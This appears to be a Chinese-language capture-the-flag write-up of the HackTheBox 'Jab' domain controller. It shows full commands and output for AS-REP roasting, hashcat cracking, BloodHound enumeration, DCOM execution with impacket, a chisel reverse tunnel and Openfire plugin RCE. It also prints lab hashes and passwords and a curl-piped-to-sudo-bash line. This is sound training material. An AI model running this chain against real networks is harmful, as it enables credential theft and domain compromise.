





HTB-Jab
Summary¶
...
Relevant Skills¶
- nmap
- Jabber/XMPP
- ASREPRoasting
- hashcat
- CME/NXC
- Port Forwarding（chisel）
- CVE-2023-32315
Attack Path Overview¶
External Recon - nmap¶
自用扫描脚本：工作流
curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s <HTB-IP>
开放端口：
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-03-21 04:13:08Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
5222/tcp open jabber Ignite Realtime Openfire Jabber server 3.10.0 or later
5223/tcp open ssl/jabber Ignite Realtime Openfire Jabber server 3.10.0 or later
5262/tcp open jabber
5263/tcp open ssl/jabber Ignite Realtime Openfire Jabber server 3.10.0 or later
5269/tcp open xmpp Wildfire XMPP Client
5270/tcp open ssl/xmpp Wildfire XMPP Client
5275/tcp open jabber Ignite Realtime Openfire Jabber server 3.10.0 or later
5276/tcp open ssl/jabber Ignite Realtime Openfire Jabber server 3.10.0 or later
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7070/tcp open realserver?
7443/tcp open ssl/oracleas-https?
7777/tcp open socks5 (No authentication; connection failed)
9389/tcp open mc-nmf .NET Message Framing
47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49671/tcp open msrpc Microsoft Windows RPC
49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49675/tcp open msrpc Microsoft Windows RPC
49676/tcp open msrpc Microsoft Windows RPC
49681/tcp open msrpc Microsoft Windows RPC
49776/tcp open msrpc Microsoft Windows RPC
59676/tcp open msrpc Microsoft Windows RPC
65483/tcp open msrpc Microsoft Windows RPC
默认脚本结果：
PORT STATE SERVICE
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
|_ssl-date: 2024-03-21T04:14:58+00:00; -2m51s from scanner time.
| ssl-cert: Subject: commonName=DC01.jab.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
| Issuer: commonName=jab-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2023-11-01T20:16:18
| Not valid after: 2024-10-31T20:16:18
| MD5: 40f9:01d6:610b:2892:43ca:77de:c48d:f221
|_SHA-1: 66ea:c22b:e584:ab5e:07e3:aa8f:5af2:b634:0733:8c06
445/tcp open microsoft-ds
464/tcp open kpasswd5
(...)
攻击路径规划·漏洞分析¶
一台域控Windows机。开放了常规的DNS、SMB、LDAP、RPC、winrm系列端口，以及一个不常见的jabber，估计也是这个靶机名的由来。与其相关的有5222等端口，查了下MXPP是jabber的别称。另外，有个端口7777是socks5。
没有HTTP网页，初步判断从SMB、LDAP收集信息，然后调查不寻常的jabber来突破。
SMB - 匿名¶
匿名连接无法列出共享：
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ smbclient //10.10.11.4/ -N
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$
最初的默认脚本扫描结果中也确实没有SMB的任何信息。
LDAP - 匿名¶
LDAP的匿名连接也没获得什么有用信息，域名、目标主机名之前的扫描结果也能得知就是DC01.jab.htb：
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldap://10.10.11.4 -s base
dn:
domainFunctionality: 7
forestFunctionality: 7
domainControllerFunctionality: 7
rootDomainNamingContext: DC=jab,DC=htb
ldapServiceName: jab.htb:dc01$@JAB.HTB
isGlobalCatalogReady: TRUE
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
(...)
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=jab,DC=htb
serverName: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configur
ation,DC=jab,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=jab,DC=htb
namingContexts: DC=jab,DC=htb
namingContexts: CN=Configuration,DC=jab,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=jab,DC=htb
namingContexts: DC=DomainDnsZones,DC=jab,DC=htb
namingContexts: DC=ForestDnsZones,DC=jab,DC=htb
isSynchronized: TRUE
highestCommittedUSN: 262616
dsServiceName: CN=NTDS Settings,CN=DC01,CN=Servers,CN=Default-First-Site-Name,
CN=Sites,CN=Configuration,DC=jab,DC=htb
dnsHostName: DC01.jab.htb
defaultNamingContext: DC=jab,DC=htb
currentTime: 20240323052215.0Z
configurationNamingContext: CN=Configuration,DC=jab,DC=htb
Jabber/XMPP¶
搜索一下Ignite Realtime Openfire Jabber，得知Jabber是XMPP的旧名，它是一种以XML为基础的开放式即时通信协。Openfire是Ignite Realtime这个开源社区下的应用程序名。
搜了下Openfire exploit，发现最近有个CVE-2023-32315，以为这就是突破口了。不过看了下这个漏洞是针对9090端口的Openfire Console，用来绕过登录认证以及使用REC插件。
Openfire Console Authentication Bypass Vulnerability with RCE plugin
不死心，想着这台机器是不是将默认的9090端口改了，于是访问了jabber相关的所有端口，没有发现Console网页。
连接Jabber获的用户清单¶
没辙了，感觉要研究一下这个Jabber的使用。又看了眼wiki说似乎是个聊天软件，以及XMPP是分布式的即时通信系统，然后有客户端服务端什么的。那么下载个客户端，连接目标主机这个服务端应该能发现些什么信息？
问了下ChatGPT推荐了个客户端，我选择了使用pidgin。
添加账号：
由于勾选了“在服务器上创建此新账号”，所以要注册：
勾选启用进行连接（似乎刚注册的号需要等一段时间才能连接上）：
然后探索一下这个XMPP客户端能干什么，发现了一个“搜索用户”的选项
根据提示，那直接用通配符试试搜索所有用户：
由于无法复制用户清单，而我们又发现有个调试窗口，打开后再次执行刚刚的操作，可以发现调式窗口以XML格式输出了所有用户。点击保存。
提取用户清单中的Email：
至此，似乎卡住不知道该怎么办了，要密码喷洒感觉难度太大了，一点密码策略都不知道，纯纯暴破感觉不妥。
想起来之前收藏的域渗透思维导图，机会难得，可以试一下是否有效。
根据这份思维导图，定位到“got username but no password”的位置，大体上有两个思路，一个就是上面提到的密码喷洒，另一个就是ASREPRoast。
ASREPRoast¶
直接照做。一套下来，有3个用户可以无预认证获得TGT（hashcat格式），而其中1个用户凭据可以破解：jmontgomery@jab.htb:Midnight_121
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-GetNPUsers -outputfile GetNPUsers.hash -format hashcat -usersfile user.txt jab.htb/ -dc-ip 10.10.11.4
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ cat GetNPUsers.hash
$krb5asrep$23$jmontgomery@jab.htb@JAB.HTB:172dc7296896cda97daacb0e737246ec$22a82ab6b10b1947da4abc5d605292d5aa8c6fe54635ecb4107023c122eba597c1a7fdd14cd605ee4a8b001a01fb9b29bfb57e28c99eebe8de30a1ea680619bbbd7a90779569e39359c9ee424dfb8ea6dff1bd3e62f1652b47457501ba344683749f293603629e68629c002db27bef1a30be11a4eb95860c37b23a7c1461a3f4c0bf95709ea69978db20f9bb2f2882461aec11c3a2807dc11f32c3adad849d6a4a4a617b8b1b13a4ee67a983813301833180cf51f7abd9b0476d8acfccb8fe64f4f9554f7fd0eaaac1e258b43497f2eb0c8ec3fa749e4f6bebd4cc8cd65c66f58855
$krb5asrep$23$lbradford@jab.htb@JAB.HTB:12ab21d5362ed0607532dd32922102fd$8445081728b932a7aa56594712ca12a44836d26932e0b6a50057ec346b24b7316d405f86a4cffe6ea54b0bf54b33fd6cacd6e13f5a6795024bd95c6653309ffe042ac3a26b86c5e053986ae9be6d9b82b7d9f58c130616d8de1d2625f240ea84d791b2fdca85ecb8a2a3ecb787f4f02fd4d3bc54a3003552ae34caee05b5122690b487b996879769f1aa790b42ce96a1c1fcf8f9deef50abb93822945d5cb9e1f2c357c38a3ffc1100ac2491bde95abc9ede3e56ae97da0541170d186c14dca95e1524c6a7d6714683baec02841379405f1b4c7cf77de168f41d9c3c41cd083af4cb
$krb5asrep$23$mlowe@jab.htb@JAB.HTB:f06a9e452c5fd320526d20b5f3c10651$cb7496554c06c770a201e3b9c700408c4b893a82da439b13b6cc24e0a45a0512c3a4e065df2b97962efdde07f4d4abad2649d3f972277696721bc5730d314c82bdd45673b8bb6a7f32aafe526e641ad53f0de456d01d612a1c35475d491b93460545095b093f9c8045623d43b661a37cf20d07e9f26a2f8dd705570ea9c865897423de702ea713ca042d41e4fd736d438f46af7ca7dec79fc2feedd63fa95d2032b927760aa4c7c4c8166e4d89899746ea36ac197f3af23be8863147db3ca30b81139677c2ec939b4b72471bbd0dcc8d25f5e868c116ac9afaf58d6f6076c598d21e
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ hashcat GetNPUsers.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode
OpenCL API (OpenCL 3.0 PoCL 4.0+debian Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 3700X 8-Core Processor, 1601/3266 MB (512 MB allocatable), 4MCU
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
18200 | Kerberos 5, etype 23, AS-REP | Network Protocol
(...)
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 0 secs
$krb5asrep$23$jmontgomery@jab.htb@JAB.HTB:172dc7296896cda97daacb0e737246ec$22a82ab6b10b1947da4abc5d605292d5aa8c6fe54635ecb4107023c122eba597c1a7fdd14cd605ee4a8b001a01fb9b29bfb57e28c99eebe8de30a1ea680619bbbd7a90779569e39359c9ee424dfb8ea6dff1bd3e62f1652b47457501ba344683749f293603629e68629c002db27bef1a30be11a4eb95860c37b23a7c1461a3f4c0bf95709ea69978db20f9bb2f2882461aec11c3a2807dc11f32c3adad849d6a4a4a617b8b1b13a4ee67a983813301833180cf51f7abd9b0476d8acfccb8fe64f4f9554f7fd0eaaac1e258b43497f2eb0c8ec3fa749e4f6bebd4cc8cd65c66f58855:Midnight_121
Approaching final keyspace - workload adjusted.
jmontgomery凭据下的探索¶
winrm连接失败¶
拿到一个凭据，且域控有开放5985端口，首先该想到尝试evil-winrm连接。
不过结果失败：
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ evil-winrm -i 10.10.11.4 -u jmontgomery -p Midnight_121
Evil-WinRM shell v3.5
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
Error: Exiting with code 1
SMB连接失败¶
那么从头开始，SMB、LDAP收集信息。
SMB无法登陆：
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ smbclient -L //10.10.11.4/ -U jab.htb/montgomery%Midnight_121
session setup failed: NT_STATUS_LOGON_FAILURE
LDAP无有用信息¶
LDAP似乎要求LDAPS连接。
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldap://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121'
ldap_bind: Strong(er) authentication required (8)
additional info: 00002028: LdapErr: DSID-0C090389, comment: The server requires binds to turn on integrity checking if SSL\TLS are not already active on the connection, data 0, v4563
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121'
ldap_sasl_bind(SIMPLE): Can't contact LDAP server (-1)
使用debug模式看了眼，似乎是因为客户端不信任服务器的SSL证书。
搜了下解决方法——用export LDAPTLS_REQCERT=never直接不验证证书，于是可以使用了。
先看了眼jmontgomery属于哪个OU，大致了解下OU结构。然后试着搜了搜几个OU的description，没什么有用信息。
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' -d 1
ldap_url_parse_ext(ldaps://10.10.11.4)
ldap_create
ldap_url_parse_ext(ldaps://10.10.11.4:636/??base)
ldap_sasl_bind
ldap_send_initial_request
ldap_new_connection 1 1 0
ldap_int_open_connection
ldap_connect_to_host: TCP 10.10.11.4:636
ldap_new_socket: 3
ldap_prepare_socket: 3
ldap_connect_to_host: Trying 10.10.11.4:636
ldap_pvt_connect: fd: 3 tm: -1 async: 0
attempting to connect:
connect success
TLS: peer cert untrusted or revoked (0x142)
TLS: can't connect: (unknown error code).
ldap_err2string
ldap_sasl_bind(SIMPLE): Can't contact LDAP server (-1)
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ export LDAPTLS_REQCERT=never
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' -b "DC=jab,DC=htb" "(userPrincipalName=jmontgomery@jab.htb)"
dn: CN=Joyce Montgomery,OU=Server Admin,OU=IT,OU=Corp,DC=jab,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Joyce Montgomery
sn: Montgomery
l: Belleville
postalCode: 7109
givenName: Joyce
distinguishedName: CN=Joyce Montgomery,OU=Server Admin,OU=IT,OU=Corp,DC=jab,DC
=htb
instanceType: 4
whenCreated: 20231027142621.0Z
whenChanged: 20240322054643.0Z
displayName: Joyce Montgomery
uSNCreated: 45753
memberOf: CN=Contractors,OU=Security Groups,OU=Corp,DC=jab,DC=htb
uSNChanged: 262235
department: DevOps
streetAddress: 4554 Duke Lane
name: Joyce Montgomery
objectGUID:: WlBjJbgLXEyNFGeZmPlfow==
userAccountControl: 4260352
badPwdCount: 6
codePage: 0
countryCode: 0
badPasswordTime: 133492008984698362
lastLogoff: 0
lastLogon: 133429072652390603
logonHours:: ////////////////////////////
pwdLastSet: 133492000755121222
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAABf2rKo+DQ34hQoIO8wYAAA==
accountExpires: 0
logonCount: 2
sAMAccountName: jmontgomery
sAMAccountType: 805306368
userPrincipalName: jmontgomery@jab.htb
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=jab,DC=htb
dSCorePropagationData: 20231027191223.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 133555600035349598
msDS-SupportedEncryptionTypes: 0
# refldaps://ForestDnsZones.jab.htb/DC=ForestDnsZones,DC=jab,DC=htb
# refldaps://DomainDnsZones.jab.htb/DC=DomainDnsZones,DC=jab,DC=htb
# refldaps://jab.htb/CN=Configuration,DC=jab,DC=htb
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' -b "OU=IT,OU=Corp,DC=jab,DC=htb" description
dn: OU=IT,OU=Corp,DC=jab,DC=htb
description:: SW5mb3JtYXRpb24gVGVjaG5vbG9neSBwZXJzb25uZWwg
dn: OU=HelpDesk,OU=IT,OU=Corp,DC=jab,DC=htb
description:: SGVscCBEZXNrIHBlcnNvbm5lbCA=
dn: CN=Dagmar Payne,OU=HelpDesk,OU=IT,OU=Corp,DC=jab,DC=htb
(...)
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ ldapsearch -LLL -x -H ldaps://10.10.11.4 -D jmontgomery@jab.htb -w 'Midnight_121' -b "CN=Configuration,DC=jab,DC=htb" description | grep description
description: The Personally Identifiable Information (PII) property specifies
description: The Protected Health Information (PHI) property specifies whether
(...)
再次登录Jabber发现新凭据¶
尝试用这个号登录pidgin，在菜单发现“添加聊天”中有个“聊天室列表”。在其中发现一个叫“pentest2003”的聊天室，里面提到之前的渗透测试中破解了一个带SPN的账号（svc_openfire:!@#$%^&*(1qazxsw）。似乎已经删除SPN了，但是没说改密码的事情。可以尝试是否可以利用？

{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
svc_openfire凭据下的探索¶
继续重复前面的步骤，结果一无所获。
于是又翻看着那份域渗透思维导图，目前是“valid credentials”的阶段。其中说的获取用户清单、枚举SMB共享、LDAP之前都试过了没什么有用信息。那就转向“bloodhound”看看吧。
另外，枚举用户和SMB共享看他用的CME（CrackMapExec），想起来之前看到说CME已经停止维护了，现在似乎NetExec（nxc）是其替代品，于是正好在这台机器也实践了一下NetExec。竟然能枚举出SMB共享列表（前面用smbclient都直接报错不能登录来着）。还挺神奇的。
BloodHound探索¶
首先看到域渗透思维导图中用的命令是bloodhound-python，安装执行后总是报错（后来发现其实加入-ns选项就能解决，当时没懂）。于是倒腾了一下nxc发现其ldap模块也能调用bloodhound，于是索性用nxc解决了。
nxc ldap 10.10.11.4 -u svc_openfire -p '!@#$%^&*(1qazxsw' --bloodhound -c all -ns 10.10.11.4
结果输出一个zip文件，然后意识到需要GUI，于是还得安装完整的bloodhound。配置好之后上传zip结果文件，点了点预定义的搜索没发现什么有用的信息（可能主要是不太会用）。最后想到直接搜搜目前拿到的两个域账户，结果发现svc_openfire似乎是可利用的：

{kind=link}
ExecuteDCOM¶
搜了下ExecuteDCOM，发现了值得参考的文章：
利用方法：https://simondotsh.com/infosec/2021/12/29/dcom-without-admin.html
扩展知识：https://book.hacktricks.xyz/windows-hardening/lateral-movement/dcom-exec#mmc20.application
按照文章中的命令执行，发现卡在“SMBv3.0 dialect used”，最后发现用-nooutput选项就好了：
因为卡在SMB连接，而help看这个选项说“no SMB connection created”。
而后细看上面文章提到的-silentcommand，试了下也行，可能理由一样，就是文章里说的“since the script is using an SMB share to write and fetch the output, and our low-privileged user cannot write to any.”？
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 "whoami" -object MMC20
Impacket v0.11.0 - Copyright 2023 Fortra
[*] SMBv3.0 dialect used
^C[-]
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$ impacket-dcomexec jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 "whoami" -object MMC20 -nooutput
Impacket v0.11.0 - Copyright 2023 Fortra
┌──(kali㉿kalik)-[~/Lab/HTB/Jab/infoG]
└─$
Initial Access¶
由于无法输出命令结果到终端，为了验证命令是否真的被执行，于是尝试ping自己并监听网卡，发现收到ping包——即命令可成功执行： 
{kind=link}
接下来就准备反弹shell，成功接收： 
{kind=link}
flag: user¶
svc_openfire用户的桌面就有flag：
PS C:\Users\svc_openfire\desktop> ls
Directory: C:\Users\svc_openfire\desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 3/24/2024 3:20 AM 34 user.txt
PS C:\Users\svc_openfire\desktop> cat user.txt
501 (...) d2e
Privilege Escalation¶
Internal Recon¶
在端口信息中发现开放了本地端口9090——即最开始我们谷歌搜到的CVE-2023-32315。原来是在这里用啊……
PS C:\Users\svc_openfire\Desktop> netstat -anop tcp |findstr LISTEN
(...)
TCP 127.0.0.1:9090 0.0.0.0:0 LISTENING 3128
TCP 127.0.0.1:9091 0.0.0.0:0 LISTENING 3128
PoC (CVE-2023-32315 like)¶
chisel配置端口转发¶
首先配置端口转发，本来想跟之前一样用SilverC2或msf，正好在桌面看到前人留下的chisel（文件上传方法在此也就省略了，可参考HTB-Authority），以前也没用过，那这次就试试chisel吧。
其实看help没太懂怎么用，搜了下，还得是Hacktricks啊：
chisel server -p 12312 --reverse #Server -- Attacker
./chisel.exe client 10.10.14.14:12312 R:9090:127.0.0.1:9090 #Client -- Victim
配置完成后浏览器访问，成功显示console登录界面：
{kind=link}
接下来就是按照github大佬的exp了。
不过，执行exp后用新创建的用户登录会失败：
{kind=link}
这也正常，可以发现登录界面写了版本4.7.5，而CVE-2023-32315也正好在这个版本修复了。
插件漏洞获得反弹shell¶
但是，我们可以用svc_openfire账户成功登陆：

继续试试这个插件能否使用，

{kind=link}
经过和之前一样的ping方式验证，这个插件还是可以执行任意命令，于是毫不犹豫执行反弹shell命令，成功getshell：

{kind=link}
flag: root¶
PS C:\Users\administrator\desktop> ls
Directory: C:\Users\administrator\desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 3/24/2024 3:20 AM 34 root.txt
PS C:\Users\administrator\desktop> cat root.txt
1b68 (...) 8776
总结·后记¶
2024/03/22
这简直是我打过的最有趣的Windows靶机了。
一部分是因为利用这份域渗透思维导图，让我体验了多种以前未使用过的工具，包括chisel。
另一方面，openfire的线索设计太棒了。一开始以为是立足用的，想着竟然这么容易就找到是利用CVE-2023-32315？然后发现谷歌直接搜出来的这个CVE根本用不上，于是继续进行探索并立足。最后竟然是在提权中涉及这个CVE，并且靶机是给了个CVE-2023-32315已修复的版本。一开始疑惑着这个CVE果然还是不管用了，结果竟然是拿着手头上的已知凭据能登陆管理界面，然后又能利用CVE-2023-32315中提到的插件执行RCE来提权。多次牵引又打乱对这个漏洞的思维关联，最终还是柳暗花明，设计得十分有趣。
关于ExecuteDCOM，
后来复盘结合上面DCOM利用方法的文章，再去确认了下这个用户的组是否有里面提到的Distributed COM Users——还真有，原来这就是可利用的原因啊。
PS C:\windows\system32> whoami /all
USER INFORMATION
----------------
User Name SID
================ ============================================
jab\svc_openfire S-1-5-21-715914501-2118353807-243417633-1104
GROUP INFORMATION
-----------------
Group Name Type SID Attributes
=========================================== ================ ============ ==================================================
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group
BUILTIN\Distributed COM Users Alias S-1-5-32-562 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access Alias S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK Well-known group S-1-5-2 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label S-1-16-8448
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
USER CLAIMS INFORMATION
-----------------------
User claims unknown.
Kerberos support for Dynamic Access Control on this device has been disabled.